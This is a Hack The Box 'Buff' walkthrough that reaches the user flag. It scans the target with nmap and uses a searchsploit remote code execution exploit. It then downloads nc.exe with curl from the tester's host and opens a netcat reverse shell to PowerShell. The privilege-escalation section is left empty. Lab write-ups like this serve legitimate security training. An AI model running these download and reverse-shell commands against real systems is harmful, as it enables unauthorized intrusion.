 # -HTB-Buff


### I start with nmap 


```
nmap -p- -sVC 10.10.10.198 -oN nmap_scan --min-rate 5000
```

<img width="1185" height="302" alt="image" src="https://github.com/user-attachments/assets/a1c47b7e-1faa-4eb8-9317-65e22bebb411" />


### On port 8080, in contact.php we can see the site name and version

<img width="763" height="184" alt="image" src="https://github.com/user-attachments/assets/f38a97d7-94ea-4edb-9266-3e14bfd576b9" />


### I used searchsploit and found multiple results , i chose the remote code execution one:

```
searchsploit -m php/webapps/48506.py 
```


<img width="1391" height="208" alt="image" src="https://github.com/user-attachments/assets/7b4ebe7b-278e-454d-a1b3-49382ebb14c2" />

### I tried with python 3, but it didn t work because it requires python 2.


<img width="905" height="112" alt="image" src="https://github.com/user-attachments/assets/c87844cf-bdbd-4309-a15c-7e72a8bcb89f" />


<img width="620" height="246" alt="image" src="https://github.com/user-attachments/assets/0c4867f6-de82-467d-beb7-d38b6923a5b9" />


### Because every time we run a command we can t change directory, so let s spawn a reverse shell.


<img width="675" height="448" alt="image" src="https://github.com/user-attachments/assets/34eaea54-83a8-4186-9c8e-af0e3def70af" />


### We have curl , so we can downlad nc 

```
curl http://10.10.14.25:8000/nc.exe -o nc.exe
```




<img width="695" height="379" alt="image" src="https://github.com/user-attachments/assets/c62819ff-6c6a-4c3e-822f-d5f7e2e02c64" />

<img width="781" height="333" alt="image" src="https://github.com/user-attachments/assets/300e21f1-7605-44b0-879b-1139a92716d6" />


### And run nc 

```
nc.exe 10.10.14.25 1337 -e powershell
```

<img width="821" height="368" alt="image" src="https://github.com/user-attachments/assets/31e1f7fe-9d00-470c-a3fe-66363f6da184" />


### On the desktop of the user shaun we find the users flag

<img width="354" height="85" alt="image" src="https://github.com/user-attachments/assets/a5282bc8-9e8c-44e9-9f8e-b23f0d152a1a" />



# Root 
...


